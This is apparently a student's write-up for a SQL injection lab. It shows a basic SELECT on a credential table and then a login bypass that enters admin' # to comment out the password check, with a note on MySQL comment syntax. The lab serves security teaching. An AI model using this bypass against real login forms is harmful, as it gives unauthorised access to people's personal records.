



# SQL Injection Attack Lab

## Task 1: Get Familiar with SQL Statements

To print all the profile information of the employee Alice, we need to select
everything from the table credential, where the column 'Name' is equal to
'Alice'. This can be achieved with the following query:

```sql
SELECT * FROM credential WHERE Name='Alice';
```



## Task 2: SQL Injection Attack on SELECT Statement

### Task 2.1: SQL Injection Attack from webpage

To perform this attack, our strategy will be to set the name to admin, and
comment out the rest of the query so that the password never gets checked.
To do this, we enter in the name input field *admin' #*, so the query becomes:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email,
    nickname, Password
FROM credential
WHERE name= 'admin' #' and Password='$hashed_pwd';
```

Which is equivalent to:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email,
    nickname, Password
FROM credential
WHERE name= 'admin';
```

Note: we use *#* instead of the traditional *--* to comment because, according
to the MySQL reference manual, the *--* comment "requires the second dash to be
followed by at least one whitespace or control character". Now lets test this
in the web page.




